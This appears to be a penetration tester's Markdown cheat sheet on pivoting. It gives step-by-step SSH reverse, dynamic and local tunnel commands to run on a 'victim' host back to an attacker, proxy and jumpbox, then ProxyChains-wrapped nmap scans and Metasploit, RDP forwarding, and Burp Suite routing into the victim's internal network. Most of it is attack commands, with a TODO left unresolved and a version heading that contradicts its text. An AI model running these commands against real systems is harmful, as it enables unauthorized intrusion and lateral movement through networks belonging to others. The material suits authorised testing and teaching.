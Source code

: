 # Pivoting

## Setting up ProxyChains
##### Allows you to run commands from your kali machine across a tunnel from your victim to other machines the victim is logically connected to

#### Greater than OpenSSH 7.6

If attacking a victim running OpenSSH version lower than 7.6, your process will be different. Older versions don't support -R and have to use a two-way proxy with -D

TODO: Figure out this process

##### On Attacker Box

Open /etc/proxychains4.conf. 

Comment strictchain and uncomment dynamicchain. Uncomment quitemode. Comment proxydns. Then change the default config at the bottom from socks4 127.0.0.1 9080 to socks5 and whatever port you want to use.

Note: For RDP, make sure xclip is installed.

##### Make sure that SSH is listening on Attacker Box

```
Sudo systemctl start ssh.service                                                                                  
```
##### If running over the internet, make sure port forwarding is open and pointing your external port to your internal attacker box interface


##### On Victim Box

```
ssh -N -f -R 127.0.0.1:9080 attacker_username@attacker_IP -p unique_pivot_port                                                                                                  
```

This only requires an ssh client on the victim machine which is extremely common. Only other thing required it to start ssh on your attacker box, as well as a port forwarding rule if it's going over the internet. 

##### On Attacker Box

```
Sudo proxychains nmap --top-ports=20 -sT -sV -sC  -v --open  -Pn IP_Address
Sudo proxychains nmap -iL scope -F -sT -v -Pn | tee fast_scan
```

You can run wrap almost any tool inside of proxychains to force it through the ssh tunnel, including things like metasploit/msfconsole. Extremely useful to utilize proxy 'fun' even if your meta module/other tool doesn't support proxy configuration.

##### Wrapping Metasploit inside of Proxychains

```
sudo proxychains msfconsole
```

This prevents you from having to setup proxies within each module in meta. Some modules don't support proxies so just another layer of difficulty that proxychains helps us avoid.

## Proxy Individual Port like RDP from Victim Back to Host 
#### Allows you to hit individual port that is open on the victim machine like RDP/VNC after you've owned the machine via an exploit

##### On Target

```
ssh -R 33389:localhost:3389 $Username@$Proxy_IP -p $Proxy_Port
```

##### On Proxy

```
ssh -R 4545:locahost:33389 $Username@$Jumpbox_Hostname -p $Jumpbox_Port
```

##### Local Kali

```
sudo systemctl start ssh
```

##### On Host

```
rdp:localhost:3389
```
## Proxy All Traffic Through Victim (Requires opening SSH as a Service on the victim on 127.0.0.1 and known local ssh credentials)

##### On Victim

```
ssh -D 1080 -N -f $local_user@127.0.0.1
ssh -R 10000:localhost:1080 $Username@$Proxy_IP -p $Proxy_Port
```

##### On Proxy

```
sudo systemctl start ssh
```

##### On Jumpbox

```
ssh -L 8887:localhost:10000 $Username@Proxy_IP -p $Proxy_Port
```

##### On Host

```
ssh -L 8887:localhost:8887 $Username@Local_Kali
```

##### If Running Burp Suite

Point burp suite SOCKS5 proxy to 8887 in Burp Network Settings
Point foxyproxy settings to 8080 HTTPS

Should then be able to hit any target on the internal network of your victim directly in proxy browser

## Pivot through a victim without opening a local port
#### (in cases when you don't have access to ssh server)(have to change your target IP when interacting with other internal targets!)

##### On Victim (will have to exit ssh connection to change targets!)

```
ssh -R 10000:$TARGET_IP:$TARGET_PORT $Username@$Proxy_IP
```

##### On Proxy/VPS

```
sudo systemctl start ssh.
```

##### On Jumpbox

```
ssh -L 8887:localhost:10000 $Username@$Proxy_IP
```

##### On Host

```
ssh -L 8887:localhost:8887 $Username@$Jumpbox_IP
```

If Running Burp suite (alernative to above)
Point Burp Suite SOCKS5 proxy to 8887 in Burp Network Settings
Point foxyproxy settings to 8080 HTTPS
